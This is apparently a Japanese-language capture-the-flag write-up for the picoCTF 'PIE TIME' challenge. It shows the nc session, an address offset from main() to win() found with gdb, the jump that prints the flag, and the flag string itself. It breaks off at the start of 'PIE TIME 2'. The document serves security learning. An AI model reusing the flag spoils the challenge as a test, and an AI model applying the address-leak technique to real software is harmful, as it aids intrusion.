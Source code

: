 Attachment:

- vuln (ELF 64-bit)
- vuln.c

<br />

### Solution

まずは、実行して動きをみてみます。

<pre>
$ nc rescued-float.picoctf.net 55539
Address of main: 0x5c34e296d33d
Enter the address to jump to, ex => 0x12345:

</pre>

<br />

main()関数のアドレスが表示され、その後、任意のアドレスを入れると、そこに飛んでくれるようになっています。

<br />

ソースコードを見ると、win()関数が用意されていて、gdbを使ってmain()関数とwin()関数とのアドレスの差分を見ると -0x96 でした。

<br /><br />

ということで、

<pre>
$ nc rescued-float.picoctf.net 55539
Address of main: 0x5c34e296d33d
Enter the address to jump to, ex => 0x12345: 0x5c34e296d2a7
Your input: 5c34e296d2a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_31cc212b}
</pre>


<br />

Flag: `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_31cc212b}`


<br /><br />
<br /><br />
## [Binary Exploitation]: PIE TIME 2 (200 points)
- - -
### Challenge
> Can you try to get the flag? I'm not revealing anything anymore!!
<br /><br />
Hint1: What vulnerability can be exploited to leak the address?
<br />
Hint2: Please be mindful of the size of pointers in this binary

- vuln (ELF 64-bit)
- vuln.c
